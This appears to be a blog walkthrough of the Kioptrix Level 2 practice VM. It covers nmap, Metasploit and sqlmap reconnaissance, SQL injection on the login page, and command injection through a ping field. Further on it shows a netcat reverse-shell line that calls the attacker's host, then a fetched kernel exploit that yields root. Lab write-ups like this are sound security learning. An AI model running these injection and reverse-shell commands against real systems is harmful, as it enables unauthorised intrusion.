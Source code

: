 ```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Today we are going to solve Kioptrix Level 2. First we need to...
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){: .center-image }

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){: .center-image }

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
#We then need to set a couple of parameters
set rhosts 192.168.1.101 #	This is the Kioptrix Machine IP 
			 #	that we found in the nmap scan
set rport 3306 #This is the open mysql port
run
{% endhighlight %}
<br>
<br>
![mysql](/assets/mysql version result.PNG){: .center-image }
<br>
<br>
Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 
<br>
<br>
![landing](/assets/web landing page.PNG){: .center-image }
<br>
<br>
A login page. Let's use burpsuite, intercept the login and see what we can find out. 
<br>
<br>
![burpsuite](/assets/burpsuite.PNG){: .center-image }
<br>
<br>
Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 
<br>
In terminal we write:
<br>
{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}
<br>
<br>
-u is for URL<br>
--data this is where we put the data from our burpsuite intercept<br>
--level is level of tests to perform from 1-5, may as well max it out<br>
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. <br>
<br>
![sqlmap complete](/assets/sqlmap-complete.PNG){: .center-image }
<br><br>
sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 
<br><br>
Now we are at this page:
<br><br>
![web after login](/assets/webpage after login.PNG){: .center-image }
<br><br>
What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with <br>{% highlight ruby %}nc -lvp 1111{% endhighlight %}<br>I used port 1111, you can use whatever port you wish. 
<br>
Then back in the webapp textbox we need to input<br>{% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}
<br><br><br>
Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} shows us this:
<br><br>
![uname](/assets/kernel.PNG){: .center-image }
<br><br>
We now know it's Linux Kernel 2.6.9-55 - Let's google an exploit! <a href="http://www.exploit-db.com/exploits/9542/">This exploit</a> seems like it's gonna work for us! It's been tested on a similar machine to this one. <br>Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){: .center-image }

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){: .center-image }


Thanks guys!
